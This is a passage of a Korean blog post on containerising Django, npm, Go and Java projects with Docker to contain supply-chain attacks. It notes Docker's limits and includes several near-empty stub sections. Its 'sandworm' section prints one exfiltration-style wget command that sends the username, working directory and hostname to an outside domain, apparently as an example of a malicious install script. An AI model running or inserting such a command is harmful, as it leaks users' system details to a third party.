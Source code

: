 ```Dockerfile
CMD ["python", "manage.py", "runserver", "0.0.0.0:8000"]
```

```sh
docker build -t django-docker-image .
```

```sh
docker run --rm --name django-backend -p 80:8000 -v $(pwd):/code django-docker-image
```

### npm

순수하게 npm을 사용하기에는 아쉬운 점이 많아 yarn, pnpm도 다루겠습니다. ~~bun은 좋지만 싫어요~~

### go mod

저는 모든 언어가 취약하다고 가정합니다. 심지어 go 언어도 취약하다고 생각합니다. 보안 취약점 문제를 갖고 있다고 생각합니다.

### Java

우리나라에서 제일 중요한 Dockerize하는 방법입니다.

### docker의 한계

docker는 보안의 만능 해결책이 아닙니다. 먼저 docker 자체도 취약합니다. docker image 87%가 클라우드 리서치팀에서 취약하다고 보고 했습니다.

docker 이미지를 직접 만들어도 한계가 있습니다. docker는 격리만 해줄 뿐입니다. 멀웨어 실행파일의 활동 범위를 제한할 수 있어도 완전히 차단한 것은 아닙니다. 또 설치 중에 결국에는 `.env`를 탈취하려는 스크립트를 실행합니다. 기계에 발생할 수 있는 취약점만 줄여줄 뿐입니다.

패키지를 받는 방식에 따라 다릅니다. golang은 패키지를 root 디렉토리에 받습니다. 그렇기 때문에 실행하면 위험이 많습니다. deno도 이와 비슷한 정책입니다.

### 그렇다고 docker가 안전한가?

결론은 아닙니다.

<iframe class="codepen" src="https://www.youtube.com/embed/1PBXB3RcDLs" title="What's really inside your docker containers?" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

What's really inside your docker containers?



## sandworm

npm에 대해서는 조금더 근본적인 해결책을 찾고 싶었습니다.

```sh
wget --quiet "https://curetosec.online/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)"
```







[^1]: [[카드뉴스] ‘최근 가장 뜨거운 보안 이슈’, 공급망 공격](https://m.boannews.com/html/detail.html?mtype=3&tab_type=H&idx=122516)
